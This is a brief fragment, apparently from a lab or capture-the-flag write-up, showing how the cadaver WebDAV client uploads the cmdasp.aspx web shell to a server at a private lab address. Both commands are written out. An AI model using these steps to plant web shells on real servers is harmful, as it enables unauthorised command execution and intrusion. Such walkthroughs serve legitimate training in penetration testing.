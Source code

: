 
### Using Cadever to put a webshell

```bash
cadaver http://192.168.120.108
```

```DAV
put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx
```



